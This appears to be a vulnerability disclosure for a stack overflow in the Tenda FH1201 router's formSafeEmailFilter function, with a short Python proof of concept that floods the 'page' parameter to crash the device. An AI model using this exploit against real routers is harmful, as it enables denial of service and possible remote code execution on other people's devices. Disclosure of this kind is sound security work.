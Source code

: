 # Tenda FH1201 formSafeEmailFilter
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the formSafeEmailFilter function.
### Vulnerability details
In function formSafeEmailFilter line 12, it reads in a user-provided parameter `page`, and the variable `v3` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/15.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeEmailFilter"

data = {
    "page": "a" * 1000
}

response = requests.get(url, params=data)
print(response.text)
```

![](images/16.png)
